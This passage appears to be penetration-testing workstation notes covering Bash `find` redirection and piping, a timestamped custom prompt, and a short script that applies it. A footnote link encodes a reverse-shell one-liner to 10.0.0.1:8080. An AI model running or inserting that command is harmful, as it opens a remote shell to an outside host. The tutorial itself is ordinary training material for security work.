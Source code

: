 	find /etc/ -name passwd >> stdout.txt 2>/dev/null

#### Redirect and pipe

	find /etc/ -name *.conf 2>/dev/null | grep systemd

```text
/etc/systemd/system.conf
/etc/systemd/timesyncd.conf
/etc/systemd/journald.conf
/etc/systemd/user.conf
/etc/systemd/logind.conf
/etc/systemd/resolved.conf
```

	find /etc/ -name *.conf 2>/dev/null | grep systemd | wc -l

```text
7
```

### Create customized bash prompt with greppable time

	cp .bashrc .bashrc.bak
	
	echo 'export PS1="-[\[$(tput sgr0)\]\[\033[38;5;10m\]\d\[$(tput sgr0)\]-\[$(tput sgr0)\]\[\033[38;5;10m\]\t\[$(tput sgr0)\]]-[\[$(tput sgr0)\]\[\033[38;5;214m\]\u\[$(tput sgr0)\]@\[$(tput sgr0)\]\[\033[38;5;196m\]\h\[$(tput sgr0)\]]-\n-[\[$(tput sgr0)\]\[\033[38;5;33m\]\w\[$(tput sgr0)\]]\\$ \[$(tput sgr0)\]"' >> .bashrc

```text
-[Tue Mar 23-00:39:51]-[cry0l1t3@parrot]-
-[~]$ 
```

Another advantage of this is that we can filter out our commands by the `minus` (`-`) at the beginning later in our logs and thus see a list with only the date, time, and command specified.

### Automate script installation

The automation process is also an essential part of our preparation for penetration testing. Especially when it comes to internal penetration tests, where we have internet access and can adapt the workstation we are working on to our needs. This should be fast and efficient. For this, we have to create (in the best case) Bash scripts that automatically adjust our settings to the new system. Let us take the configuration and adjustment of our Bash prompt as an example. An example script can consist of the same commands we already configured.

#### Bash Prompt Customization Script - Prompt.sh

```bash
#### Make a backup of the .bashrc file
cp ~/.bashrc ~/.bashrc.bak

#### Customize bash prompt
echo 'export PS1="-[\[$(tput sgr0)\]\[\033[38;5;10m\]\d\[$(tput sgr0)\]-\[$(tput sgr0)\]\[\033[38;5;10m\]\t\[$(tput sgr0)\]]-[\[$(tput sgr0)\]\[\033[38;5;214m\]\u\[$(tput sgr0)\]@\[$(tput sgr0)\]\[\033[38;5;196m\]\h\[$(tput sgr0)\]]-\n-[\[$(tput sgr0)\]\[\033[38;5;33m\]\w\[$(tput sgr0)\]]\\$ \[$(tput sgr0)\]"' >> ~/.bashrc
```


[^1]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261